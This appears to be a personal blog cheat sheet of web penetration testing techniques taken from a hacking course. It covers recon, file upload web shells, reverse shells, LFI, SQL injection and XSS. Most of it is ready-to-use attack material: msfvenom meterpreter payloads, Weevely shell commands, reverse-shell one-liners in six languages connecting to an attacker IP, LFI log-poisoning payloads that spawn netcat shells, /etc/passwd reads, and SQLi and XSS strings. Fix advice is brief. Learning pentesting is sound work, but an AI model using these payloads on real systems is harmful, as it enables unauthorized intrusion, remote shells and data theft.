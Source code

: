 ```yaml
---
layout: single
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
classes: wide
categories: notes web
permalink: /notes/webpentest
tags: [note, htb, web]

---
```


some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

## webbugTIPS

### **(Information Gathering)**

    - `http://whois.domaintools.com` = find owner target
    - `https://toolbar.netcraft.com/site_report?url` = show technology used on target
    - `https://www.robtex.com` = show comprehensive info target
    - Discovering Websites On The Same Server = *`bing ip:103.198.52.156 php?id`*
    - Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
    - Find file/directory in target website by [_`dirb http://what.com.my /root/usr/share/wlist.txt`_]. Try find [`php.info, robots.txt, config.inc`] for specific target info.
    - Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

### **File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *`msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php`*
- Metasploit listener: *`use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run`*
- Upload Weevly shell. *`weevly generate p@55w0rd! shell.php`*
- .Open the url to activated.
- Connect to weevly terminal.  *`weevly http://test.com.my/upload p@55w0rd!`*
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

### **Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command *`nc -vv -l -p 8080`*

- BASH = *`bash -i >& /dev/tcp/10.20.14.203/8080 0>&1`*
- PERL= *`perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`*
- Netcat = *n`c -e /bin/sh 10.20.14 8080`*
- Python = *`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`*
- PHP = *`php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'`*
- Ruby = *`ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`*


### **Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for *`../../../../etc/passwd`* and copy the passwd hashes.
- Gain access method#1. Check for *`../../../../proc/self/environ`* and modify burpsuite Headers Tab>user Agent value from Mozilla to *`<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>`* and set listener to *`nc -vv -l -p 8888`* on terminal.
- Gain access method#2. Check for *`../../../../var/log/auth.log`* and do SSH by *`ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP`* and set listener nc in terminal.

### **Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by `disable allow_url_fopen` & `allow_url_include` in `/etc/php5/cgi/php.ini`.

### **SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use `and, order by, ‘` and check for error handling. `123456’ and 1=1#`
- [WEAK codepractise] Try `(admin)/(admin’ #); aaa’ or 1=1 #`
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

### **SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using *`admin’ order by 1#`* `# change to %23` to check how many columns are there in db.
- If there are 5 columns then use *`union select 1, database(), user(), version(), 5`*

### **SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE *`1’ and 1=1%23`*, FALSE  `1’ and 1=0%23`.
TRUE  `1’ order by 1%23`, FALSE   `1’ order by 1000000000%23`.
TRUE   `1’ union select table_name,2 from information_schema.tables%23`
`1’ union select null,load_file(‘/etc/passwd’),null,null,null%23`.
- *`Sqlmap -u http://injectablelink.com.org`* . use `‘--sql-shell’` parameter to run sql command.

### **XSS Vulnerabilities**

- Try basic *`<script>alert(“testedXSS”)</script>`*
- If filter, try more *`<sCripT>alert(“testedXSS”)</scRipt>`*
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*
